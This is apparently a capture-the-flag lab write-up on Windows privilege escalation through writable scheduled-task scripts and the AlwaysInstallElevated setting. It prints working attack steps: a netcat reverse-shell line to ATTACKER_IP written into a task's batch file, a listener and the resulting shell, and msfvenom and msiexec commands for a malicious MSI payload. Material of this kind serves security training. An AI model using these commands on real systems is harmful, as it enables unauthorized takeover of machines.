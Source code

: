 # Scheduled Tasks

\


### Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.\
Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:\
Command Prompt\
`C:\> schtasks /query /tn vulntask /fo list /v`\
`Folder: \`\
`HostName: THM-PC1`\
`TaskName: \vulntask`\
`Task To Run: C:\tasks\schtask.bat`\
`Run As User: taskusr1`

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.\
If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:\
Command Prompt\
`C:\> icacls c:\tasks\schtask.bat`\
`c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)`\
`BUILTIN\Administrators:(I)(F)`\
`BUILTIN\Users:(I)(F)`

As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:\
Command Prompt\
`C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:\
`nc -lvp 4444`The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:\
Command Prompt\
`C:\> schtasks /run /tn vulntask`

And you will receive the reverse shell with taskusr1 privileges as expected:\
Kali Linux\
`user@attackerpc$ nc -lvp 4444`\
`Listening on 0.0.0.0 4444`\
`Connection received on 10.10.175.90 50649`\
`Microsoft Windows [Version 10.0.17763.1821]`\
`(c) 2018 Microsoft Corporation. All rights reserved.`

`C:\Windows\system32>whoami`\
`wprivesc1\taskusr1`

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

### AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.\
**Note:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.\
This method requires two registry values to be set. You can query these from the command line using the commands below.\
Command Prompt\
`C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`\
`C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:\
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:\
Command Prompt\
`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`
